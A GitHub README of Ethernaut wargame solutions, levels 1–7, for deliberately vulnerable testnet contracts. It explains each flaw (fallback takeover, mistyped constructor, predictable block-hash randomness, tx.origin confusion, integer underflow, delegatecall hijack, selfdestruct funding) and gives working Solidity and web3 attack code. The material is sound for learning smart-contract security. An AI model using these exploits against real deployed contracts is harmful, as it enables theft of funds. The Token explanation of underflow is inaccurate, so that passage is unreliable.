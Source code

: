 # Ethernaut Solutions by aki

## Usage

This repo uses Hardhat and ethers.js stack to interact with the Ethernaut contracts. The solutions below, however, endeavor to use the console to execute any required scripts, and therefore use web3 as it is injected into the Ethernaut console. If you fork this repo, be sure to include a `.env` file that follows the same format as the given `.env.example` file.

A couple of npm scripts make it easy to run the code yourself:
1. `npm run solve --level=X` solves the corresponding level, deploying contracts if necessary.
2. `npm run deploy --level=X` only deploys the corresponding contract to the Rinkeby testnet, if it exists. 

## Solutions

### 1. Fallback
A fallback function is called when a contract receives ETH in a transaction that is not handled by any of its methods. This contract's fallback function has a vulnerability that allows us to gain control of the contract and therefore call its `withdraw` method.
```typescript
await contract.contribute({ value: 1 });
await contract.send({ value: 1 }); // Trigger fallback
await contract.withdraw();
```

### 2. Fallout
Before Solidity v0.4.23, constructors were denoted using a function name that was the same as the contract's name. Constructors are only ever called once, during contract creation, but in the case that the constructor's name does not match the contract, it is possible to call it repeatedly as a normal function. The constructor in this level has a typo that allows us to call it and gain control of the contract.
```typescript
await contract.Fal1out();
await contract.collectAllocations();
```

### 3. Coin Flip
This contract attempts to create its own source of randomness by performing some operations on the block number of the block that the `flip` method is mined into. Because the blcok number and these operations are all public, we can create a contract that uses the same calculations to compute the result of the flip before calling original `flip` method.
```solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Level3 {
  using SafeMath for uint256;

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip cf = CoinFlip(INSTANCE_ADDRESS);

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    cf.flip(blockValue.div(FACTOR) == 1);
  }
}

abstract contract CoinFlip {
  function flip(bool _guess) virtual public returns (bool);
}
```

We can pair the contract with a simple script that calls our `attack` method the requisite amount of times, ensuring each subsequent call happens only after the previous has been mined. We cannot simply do this in the `Level3` contract above as the block number must be different between flips as enforced in the original CoinFlip contract. Using Metamask as our provider is annoying here because we must provide manual confirmation for each transaction, so we will use Alchemy with a local script:
```typescript
import { ethers } from "ethers";

const contract = await ethers.getContractAt(
  'Level3', 
  LEVEL3_CONTRACT_ADDR, 
  (await ethers.getSigners())[0]
);

for (let i = 0; i < 10; i++) {
  await (await contract.attack()).wait();
}
```

### 4. Telephone
`tx.origin` and `msg.sender` are different in a call chain. `tx.origin` always corresponds to the user (EOA) that starts the call chain, whereas `msg.sender` corresponds the caller of the current method/contract (and can thus be an EOA or a contract). For example, if user A calls contract B which calls contract C, within the method call to C, `msg.sender` refers to B while `tx.origin` refers to A. We can use this to our advantage by creating a contract that calls the `Telephone` contract's `changeOwner` method. 
```solidity
pragma solidity ^0.8.0;

contract Level4 {
  Telephone t = Telephone(INSTANCE_ADDRESS);

  function attack() public {
    t.changeOwner(msg.sender);
  }
}

abstract contract Telephone {
  function changeOwner(address _owner) virtual public;
}
```

We simply call our `attack` method to gain control of the `Telephone` contract.
```typescript
await sendTransaction({
  to: LEVEL4_CONTRACT_ADDRESS,
  from: WALLET_ADDRESS,
  data: web3.eth.abi.encodeFunctionSignature('attack()'),
});
```

### 5. Token
The `uint` type in Solidity is an unsigned integer and can never be negative. Negative numbers are represented with two's complement, so -1 is stored as 2^32-1. We can exploit this by transferring more tokens than we have to another address, so that our balance is negative and wraps around to a large positive number.
```typescript
await contract.transfer('0x0000000000000000000000000000000000000000', 50);
```

### 6. Delegate
`delegatecall` is a function that allows us to pass data to and call methods from another contract. It differs from the more common `call` function in that it does not modify the state of the contract that is being called, only the state of the calling contract, which **must** have an identical storage layout as the contract being called. Indeed, we can see that the `Delegate` and `Delegation` contracts share slot0 of their storage. We can exploit this to call `pwn()` in the `Delegate` contract through the `delegatecall` in the fallback method of the `Delegation` contract, which will update the storage (ie the `owner` field) of the `Delegation` contract to our address.
```typescript
await contract.sendTransaction({
  to: INSTANCE_ADDRESS,
  data: web3.eth.abi.encodeFunctionSignature('pwn()'),
});
```

### 7. Force
Even if a contract has no payable functions and no fallback function, it is still possible to increase its balance by designating it as the recipient of a self-destructed contract's funds. We can exploit this by creating a simple payable function that simply passes the given ETH to the `Force` contract after self-destructing.
```solidity
pragma solidity ^0.8.0;

contract Level7 {
  function attack() public payable {
    selfdestruct(payable(INSTANCE_ADDRESS));
  }
}
```

```typescript
await sendTransaction({
  to: LEVEL7_CONTRACT_ADDRESS, 
  from: WALLET_ADDRESS, 
  data: web3.eth.abi.encodeFunctionSignature('attack()'), 
  value: 1
});
```
